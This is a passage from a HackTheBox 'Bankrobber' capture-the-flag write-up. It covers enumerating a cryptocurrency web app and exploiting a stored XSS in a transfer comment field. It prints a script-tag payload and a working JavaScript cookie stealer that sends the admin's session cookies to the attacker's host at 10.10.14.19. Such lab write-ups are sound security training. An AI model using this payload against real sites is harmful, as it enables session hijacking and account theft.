 ## MySQL

MySQL is not accessible remotely:

```
root@kali:~/htb/bankrobber# mysql -h 10.10.10.154 -u root -p
Enter password:

ERROR 1130 (HY000): Host '10.10.14.19' is not allowed to connect to this MariaDB server
```

## Web enumeration

The website is a web application that allows users to buy E-coin cryptocurrency.

![](/assets/images/htb-writeup-bankrobber/web1.png)

I can create an account by following the Register link.

![](/assets/images/htb-writeup-bankrobber/web2.png)

After logging in I have the option of transferring funds to another user and to leave a comment.

![](/assets/images/htb-writeup-bankrobber/web3.png)

When I transfer funds, I get a popup message saying the admin will review the transaction. This screams XSS to me because there's a comment field that the admin will see and if it's not sanitized correctly I'll be able to inject javascript code in his browser session.

![](/assets/images/htb-writeup-bankrobber/web4.png)

## Exploiting the XSS

My XSS payload in the comments field is very simple: `<script src="http://10.10.14.19/xss.js"></script>`

This'll make the admin browser download a javascript file from my machine and execute its code.

The `xss.js` will steal the session cookies from the admin and send them to my webserver.

```javascript
function pwn() {
    var img = document.createElement("img");
    img.src = "http://10.10.14.19/xss?=" + document.cookie;
    document.body.appendChild(img);
}
pwn();
```

After a few minutes I get two connections. The first downloads the javascript payload and the second one is the connection from the script with the admin cookies.

![](/assets/images/htb-writeup-bankrobber/xss1.png)
